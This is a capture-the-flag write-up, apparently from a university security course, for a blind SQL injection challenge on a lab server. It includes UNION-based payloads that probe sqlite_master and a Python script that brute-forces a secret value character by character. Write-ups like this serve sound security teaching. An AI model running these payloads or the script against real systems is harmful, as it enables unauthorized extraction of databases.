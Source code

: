 # Challenge `Sometimes we are just temporarily blind-v2` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to SQL injection

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23262`, on the search bar

- Impact: What results of exploiting this vulnerability
  - Allows the user to access hidden articles

## Steps to reproduce

1. Navigate to `http://mustard.stt.rnl.tecnico.ulisboa.pt:23262`
2. The seach executes the following query and is vulnerable to SQLi (discovered by inputting `'` with a random string following):

```sql
SELECT id, title, content FROM blog_post WHERE title LIKE '%<input>%' OR content LIKE '%input%' 
```

3. It is possible to view in the page how many returned from the query but not their content
4. We can brute-force a query like the one that follows, changing the values in the `LIKE` function in order to obtain the table names:

```SQL
' UNION SELECT tbl_name, tbl_name, tbl_name FROM sqlite_master WHERE tbl_name LIKE '<guess>%' --
```

5. A table named `super_s_sof_secrets` is found
6. We can brute-force another query to get the `CREATE` statement for this table (along with the column names):

```SQL
' UNION SELECT sql, tbl_name, tbl_name FROM sqlite_master WHERE type='table' AND name='super_s_sof_secrets' AND sql LIKE '<guess>%' --
```

7. A column named `secret` is found
8. Finally, we can get the flag by brute-forcing the final query, using `GLOB` for a case-sensitive `SELECT`:

```SQL
' UNION SELECT secret, secret, secret FROM super_s_sof_secrets WHERE secret GLOB '*SSof<guess>*' --
```

The code used was:

```py
import requests
import urllib.parse

def discover(base_url):
    valid_combinations = []
    valid_letters = 'abcdefghijklmnopqrstuvwxyz_ABCEDFGHIJKLMNOPQRSTUVWXYZ \{\}'

    for letter in valid_letters:
        encoded_letter = urllib.parse.quote(letter)
        url = base_url.format(encoded_letter)
        res = requests.get(url)
        if '4' not in res.text:
            valid_combinations.append(letter)
            print("SSof" + letter)

    result = ""
    while len(valid_combinations) != 0:
        new_valid_combinations = []
        for prefix in valid_combinations:
            for letter in valid_letters:
                encoded_letter = urllib.parse.quote(prefix + letter)
                url = base_url.format(encoded_letter)
                res = requests.get(url)
                if '4' not in res.text:
                    new_valid_combinations.append(prefix + letter)
                    result = prefix + letter
                    print("SSof" + prefix + letter)
                    break
        valid_combinations = new_valid_combinations
    return result

table_name = "super_s_sof_secrets"
column_name = "secret"

# ' UNION SELECT secret, secret, secret FROM super_s_sof_secrets WHERE secret GLOB '*SSof*' --
base_url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search=%27+UNION+SELECT+secret%2C+secret%2C+secret+FROM+" + table_name + "+WHERE+" + column_name + "+GLOB+%27*SSof{}*%27+--"
print("Secret: " + "SSof" + discover(base_url))
```

Note: Steps 4-7 were ommited in the code, since their results had already been obtained in v1 of this exercise